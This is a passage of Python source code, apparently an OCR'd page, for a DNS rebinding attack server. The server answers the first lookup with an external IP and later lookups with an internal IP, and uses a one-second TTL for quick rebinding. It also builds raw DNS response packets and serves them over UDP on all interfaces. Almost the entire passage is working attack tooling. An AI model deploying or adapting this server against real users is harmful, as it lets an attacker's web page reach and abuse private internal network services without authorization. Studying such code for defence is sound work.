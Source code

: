 ```python
        # Subsequent requests: return internal IP
        if self.request_count == 1:
            response_ip = self.external_ip
            print(f"[+] First request from {addr}, returning external IP: {response_ip}")
        else:
            response_ip = self.internal_ip
            print(f"[+] Subsequent request from {addr}, returning internal IP: {response_ip}")
        
        # Build DNS response (simplified)
        response = self.build_dns_response(data, response_ip)
        sock.sendto(response, addr)
    
    def build_dns_response(self, query, ip):
        """Build DNS response packet"""
        # This is a simplified DNS response builder
        # In practice, you'd want a more robust implementation
        
        # Extract transaction ID from query
        transaction_id = query[:2]
        
        # DNS header
        flags = b'\x81\x80'  # Standard query response, no error
        questions = b'\x00\x01'  # 1 question
        answers = b'\x00\x01'    # 1 answer
        authority = b'\x00\x00'  # 0 authority records
        additional = b'\x00\x00' # 0 additional records
        
        header = transaction_id + flags + questions + answers + authority + additional
        
        # Question section (copy from query)
        question = query[12:]  # Skip header
        
        # Answer section
        name_pointer = b'\xc0\x0c'  # Pointer to name in question
        record_type = b'\x00\x01'   # A record
        record_class = b'\x00\x01'  # IN class
        ttl = b'\x00\x00\x00\x01'   # TTL = 1 second (for quick rebinding)
        data_length = b'\x00\x04'   # 4 bytes for IPv4
        ip_bytes = socket.inet_aton(ip)
        
        answer = name_pointer + record_type + record_class + ttl + data_length + ip_bytes
        
        return header + question + answer
    
    def start_server(self):
        """Start DNS rebinding server"""
        sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
        sock.bind(('0.0.0.0', self.port))
        
        print(f"[+] DNS Rebinding server started on port {self.port}")
        print(f"[+] External IP: {self.external_ip}")
        print(f"[+] Internal IP: {self.internal_ip}")
        
        while True:
            try:
                data, addr = sock.recvfrom(512)
                thread = threading.Thread(
                    target=self.handle_dns_request,
                    args=(data, addr, sock)
                )
                thread.start()
            except Exception as e:
                print(f"[-] Error: {e}")
```